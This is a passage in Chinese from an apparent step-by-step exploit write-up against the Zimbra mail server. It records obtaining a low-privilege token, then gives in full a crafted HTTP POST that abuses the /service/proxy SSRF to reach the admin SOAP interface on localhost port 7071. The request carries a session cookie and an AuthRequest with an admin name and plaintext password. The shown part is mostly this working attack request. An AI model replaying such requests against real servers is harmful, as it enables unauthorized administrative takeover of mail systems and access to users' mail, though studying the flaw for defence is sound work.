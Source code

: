```

</soap:Envelope>` 
```

![image](../img/3048ef2bbbba3f214dfbde47fc6aacc3.png)

从上图可以看到已经获取到token，但该token不是管理员权限的token，暂时记下来以后要用。

### 第四步：利用SSRF漏洞通过proxy接口，访问admin的soap接口获取高权限Token

> POST请求包如下：

```
POST /service/proxy?target=https://127.0.0.1:7071/service/admin/soap HTTP/1.1  
Host: www.0-sec.org:7071  
User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/
Content-Type: application/soap+xml  
Content-Length: 465  
Connection: close  
Cookie: ZM_ADMIN_AUTH_TOKEN=0_5221766f264e4dcb78b4f67be5f839b1ed668da3_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343733303133353638333b747970653d363a7a696d6272613b7469643d393a3735353034333637323b  
Upgrade-Insecure-Requests: 1 `<soap:Envelope xmlns:soap=“[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)”>

<soap:Header>

<context xmlns=“urn:zimbra”>

<userAgent name=“ZimbraWebClient - SAF3 (Win)” version=“5.0.15_GA_2851”/>

</context>

</soap:Header>

<soap:Body>

<AuthRequest xmlns=“urn:zimbraAdmin”>

<account by=“adminName”>zimbra</account>

<password>GzXaU76_s5</password>

</AuthRequest>

```